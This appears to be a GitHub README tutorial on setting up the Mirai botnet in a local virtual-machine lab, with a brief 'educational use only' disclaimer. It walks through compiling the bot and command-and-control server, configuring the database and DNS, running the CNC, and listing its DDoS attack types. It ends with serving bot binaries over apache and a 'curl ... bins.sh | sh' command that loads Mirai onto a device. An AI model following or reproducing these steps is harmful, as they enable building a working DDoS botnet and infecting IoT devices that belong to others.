 # Mirai setup

## What you need:
- Working pihole setup
- Virtual Box(with atleast 3 instances of Ubuntu) 
- Copy of mirai source code

## What we will do
The goal is to setup and run mirai in an local environment.  
But a disclaimer at the beginning: Do not use this to actually attack somebody its only for educational use.
<br><br>

## Virtual Machine - 1 DNS server
First we need to setup a local DNS server to have query resolution to run bot.
For this we will be using Pi-Hole

To install Pi-Hole run the following command

```
curl -sSL https://install.pi-hole.net | sudo PIHOLE_SKIP_OS_CHECK=true bash
```
Change the Pi-Hole password using this command

```
pihole -a -p [password]
```

Open Pi-Hole in your browser wiht the url that is shown in the terminal.


## Virtual Machine - 2 CNC & MySQL server
### First we need to install some packages  

```
sudo apt install gcc golang electric-fence mysql-server mysql-client screen dialog python3 apache2 -y
```
<br>

### The next step is to install the cross compilers
```
sudo bash ./tools/compilers.sh
```
<br>

**Now please restart your bash for those changes to take effect**
<br>

Now add paths for the installed cross-compilers into bash

To do that run 

```
sudo nano ~/.bashrc
```
After the file opens add these line at the end of the file

```
export PATH=$PATH:"/etc/xcompile/armv4l/bin"
export PATH=$PATH:"/etc/xcompile/armv5l/bin"
export PATH=$PATH:"/etc/xcompile/armv6l/bin"
export PATH=$PATH:"/etc/xcompile/i586/bin"
export PATH=$PATH:"/etc/xcompile/i686/bin"
export PATH=$PATH:"/etc/xcompile/m68k/bin"
export PATH=$PATH:"/etc/xcompile/mips/bin"
export PATH=$PATH:"/etc/xcompile/mipsel/bin"
export PATH=$PATH:"/etc/xcompile/powerpc/bin"
export PATH=$PATH:"/etc/xcompile/sh4/bin"
export PATH=$PATH:"/etc/xcompile/sparc/bin"
export PATH=$PATH:"/etc/xcompile/x86_64/bin"
```
save it and restart the terminal
### Now we can compile it for the first time
```
bash ./setup.sh
bash ./build.sh debug telnet
```
<br>

### Now we need to setup the database it's easy trust me.
Simply run:
```
cat ./tools/db.sql | sudo mysql
```
<br>

Now restart mysql to make sure all changes are loaded:
```
sudo systemctl restart mysql
```
<br>

### Now we need to change some settings.  
Simply run and type in your domain and dns server:
```
python3 setup.py
```
<br>

### Now we can compile it for the second time :D
```
bash ./build.sh debug telnet
```
<br>

### Now its time to setup pihole
To do this you need to login into pihole and go to Local DNS/DNS Records and type in the domain you used earlier in this tutorial and the ip of the server where the cnc is supposed to run on. **Don't forget to click on add!**
<br>

### And finlay we can run it!
To run the cnc use:
```
cd debug
screen -S mirai-cnc sudo ./cnc
```
<br>

To run a bot use:
```
cd debug
screen -S mirai-bot sudo ./mirai.dbg
```
<br>

To connect to the cnc using telnet use:
```
telnet localhost

You will be asked to login you can do that with the user we inserted earlier into the database it should look something like:

я люблю куриные наггетсы
пользователь: root
пароль: root

проверив счета... |
[+] DDOS | Succesfully hijacked connection
[+] DDOS | Masking connection from utmp+wtmp...
[+] DDOS | Hiding from netstat...
[+] DDOS | Removing all traces of LD_PRELOAD...
[+] DDOS | Wiping env libc.poison.so.1
[+] DDOS | Wiping env libc.poison.so.2
[+] DDOS | Wiping env libc.poison.so.3
[+] DDOS | Wiping env libc.poison.so.4
[+] DDOS | Setting up virtual terminal...
[!] Sharing access IS prohibited!
[!] Do NOT share your credentials!
Ready
root@botnet#
```
<br>

Finaly to see a list of attacks type:
```
root@botnet# ?
Available attack list
udp: UDP flood
dns: DNS resolver flood using the targets domain, input IP is ignored
stomp: TCP stomp flood
greip: GRE IP flood
greeth: GRE Ethernet flood
vse: Valve source engine specific flood
syn: SYN flood
ack: ACK flood
udpplain: UDP flood with less options. optimized for higher PPS
http: HTTP flood
```
<br>

### But wait there is more
We didn't see how to attack iot devices yet but first of all we need to compile the release binary's:
```
bash ./build.sh release telnet
```
<br>

Let's install the binary's to apache2:
```
cd release
sudo bash ../apache2.sh
```
<br>

Now lets run the cnc:
```
cd release
sudo screen -dmS mirai-cnc ./cnc
```
<br>

If you did everything right you can now load mirai onto a device with:
```
curl http://<your ip>/bins/bins.sh |sh
```
<br>
